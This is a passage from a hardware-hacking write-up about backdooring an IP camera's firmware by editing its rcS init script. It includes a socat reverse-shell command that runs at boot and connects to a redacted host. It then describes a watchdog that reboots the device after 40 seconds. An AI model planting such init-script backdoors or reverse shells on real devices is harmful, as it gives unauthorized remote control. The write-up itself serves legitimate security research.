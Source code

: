 We overcome the read-only file-system issue by manually mounting the sdcard (`mount -o rw,exec /dev/mmc0p1 /mnt/sd`) in the init process and using it to write files at runtime. The second point is crucial when we want to add or delete files in the image. The final image of this file-system is "aligned" to 4096 bytes, meaning that it's possible to modify 4.000 bytes without changing the final size of the image but that we need to delete files if we need to write more than that (for that reason, the last lines of the script was checking exactly that before injecting the newly created image in the "new" firmware).

#### Backdoor the init process
Without hardware input sources, also a customized firmware that spawns a `/bin/sh` on its initialization phase wasn't enough. Also, execute sporadically bash commands was not that interesting. However, if you remember from the [previous article](https://www.hacktivesecurity.com/index.php/2024/12/10/not-all-roads-lead-to-pwn2own-hardware-hacking-part-1/), we had manually soldered ethernet pinouts from the hardware. Instead of just executing a classic `/bin/sh`, we could setup the ethernet interface (modifying the `/etc/init.d/rcS` script) with an assigned IP and, by directly connecting it to our PC, receive a reverse shell to finally have an interactive environment in our target.

```bash
ifconfig eth0 up
udhcpc -i eth0
ifconfig eth0 <REDACTED>
```

Setup the interface just requires the above commands that can be inserted inside the `rcS` init script. The reverse shell, however, was not that easy due to the high `busybox` limitations (without `telnetd`, `nc` or any useful command for a direct reverse shell) and that we are also limited in inserting a custom pre-compiled binary due do the size constraints mentioned above. To solve the size limitation we initially opted to re-compile and replace the busybox binary but then went for a quicker solution: remove what could be considered unnecessary for the camera in the system to save some space, and insert a precompiled binary executable that permitted a reverse shell (e.g. a compatible netcat, socat or a C file with a tiny shellcode). In this stage, the qemu environment turned out to be really useful to test things on a "similar" environment. At last, we achieved the result by putting a pre-compiled ARM32 EABI version of `socat` and executing it from the `rcS` script:

```bash
/bin/socat tcp-connect:<REDACTED>:4444 exec:/bin/sh,pty,stderr,setsid,sigint,sane &
```

And now.. we have a working (writable) shell!!

But again, **after 40 seconds**, the camera was rebooting itself..

#### 40 seconds.. to the hell
Everything that was done until this point didn't take too much time (few days), the "nightmare" started exactly from now on. Having a reverse shell limited to 40 seconds put us in a successful state of mind that was not "real", and this was the key point to the failure of the overall project. In our mind, ***we just needed*** to bypass some further integrity checks that were happening in later stages of the system process, but we thought that we were at the "*95% of the result*" (cit.). From now on, days and nights of firmware flashing, rabbit holes, reverse engineering, emotions rollercoaster and false hopes were just starting.

#### Freaking dog, is that you?
We were now able to execute bash commands through a customized firmware that we could directly flash. Then, after 40 seconds, something reboot the system. This seemed to us like a typical [watchdog](https://developer.toradex.com/software/linux-resources/linux-features/watchdog-linux/) scenario where, *someone at some point given specific conditions*, didn't correctly fed the dog. In fact, watchdog serves specifically for that purpose and is highly adopted in these kind of devices: the system reboot itself if no one has "interacted" in a specific way with the watchdog service, "telling" him that everything (e.g. the boot init) was fine.
In this case, the classic [watchdog linux daemon](https://linux.die.net/man/8/watchdog) was not used but were able to identify similar behaviors in the `rcS` and related scripts. 
Inside the `rcS` init script, we can identify the following commands with a chinese comment:
